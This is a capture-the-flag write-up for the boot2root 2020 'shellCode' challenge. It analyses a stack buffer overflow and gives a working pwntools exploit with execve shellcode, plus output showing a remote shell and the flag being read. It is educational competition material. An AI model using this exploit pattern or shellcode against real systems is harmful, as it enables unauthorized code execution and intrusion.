 # boot2root 2020

## shellCode

> 477
>
> babies love shell legends love shellcode
>
> `nc 35.238.225.156 1006`
>
> Author: TheBadGuy
> 
> [shellcode](shellcode)

Tags: _pwn_ _x86-64_ _remote-shell_ _bof_ _shellcode_


## Summary

Shellcode in a tight spot.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

No canary, has RWX segments, NX disabled screams shellcode.  Why bother with PIE?


### Decompile with Ghidra

```c
undefined8 main(void)
{
  undefined8 local_18;
  undefined8 local_10;
  
  local_18 = 0;
  local_10 = 0;
  setvbuf(stdout,(char *)0x0,1,0);
  puts("Amigo\'s I welcome you to the boot2root server");
  printf("Wait did I say something I wasnt supposed to[%p] ?\n",&local_18);
  puts("Okay Waiting for the answer now");
  read(0,&local_18,0x40);
  return 0;
}
```

`main` leaks the address of buffer `local_18` that is `0x18` (24) bytes from the return address, then `read`s up to `0x40` (64) bytes that allows `local_18` to overflow the return address and then some.

If you can find or create shellcode in 24 bytes that also will not get messed up with pop/push from the stack (happens), then go for it.  Otherwise, there's the roomier 32 bytes (64(`read`) - 24(`local_18`) - 8(return address)) after the return address that is also less likely to get clobbered with pop/push.

I went with the roomer option.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./shellcode')

if args.REMOTE:
    p = remote('35.238.225.156', 1006)
else:
    p = process(binary.path)

p.recvuntil('supposed to[')
_ = p.recvuntil(']')
buff = int(_[:-1],16)
log.info('buff: ' + hex(buff))

# http://shell-storm.org/shellcode/files/shellcode-905.php
# 29 bytes
shellcode  = b''
shellcode += b'\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf'
shellcode += b'\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54'
shellcode += b'\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05'

payload  = b''
payload += 0x18 * b'A'
payload += p64(buff + 0x18 + 8)
payload += shellcode

p.sendafter('answer now\n',payload)
p.interactive()
```

First, capture the buffer leak (address of `local_18`).

Next, find (or create) some shellcode < 32 bytes--easy.

For the payload just write out `0x18` bytes to get to the return address in the stack (`local_18` is `0x18` (24) bytes from the return address), then change the return address to the address below it (`buff + 0x18` gets you to return address, add `8` for the next stack line), then, our shellcode.

On "return", the stack pointer will bump down to our shellcode and give us a shell.

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/boot2root2020/shellcode/shellcode'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
[+] Opening connection to 35.238.225.156 on port 1006: Done
[*] buff: 0x7fff7cc19470
[*] Switching to interactive mode
$ id
sh: 1: id: not found
$ ls -l
total 44
drwxr-x--- 1 0 1000  4096 Dec  6 14:16 bin
drwxr-x--- 1 0 1000  4096 Dec  6 14:16 dev
-rwxr----- 1 0 1000    23 Dec  6 15:31 flag
drwxr-x--- 1 0 1000  4096 Dec  6 14:16 lib
drwxr-x--- 1 0 1000  4096 Dec  6 14:16 lib32
drwxr-x--- 1 0 1000  4096 Dec  6 14:16 lib64
-rwxr-x--- 1 0 1000 16800 Dec  6 15:31 shellcode
$ cat flag
b00t2root{sehllz_c0de}
```
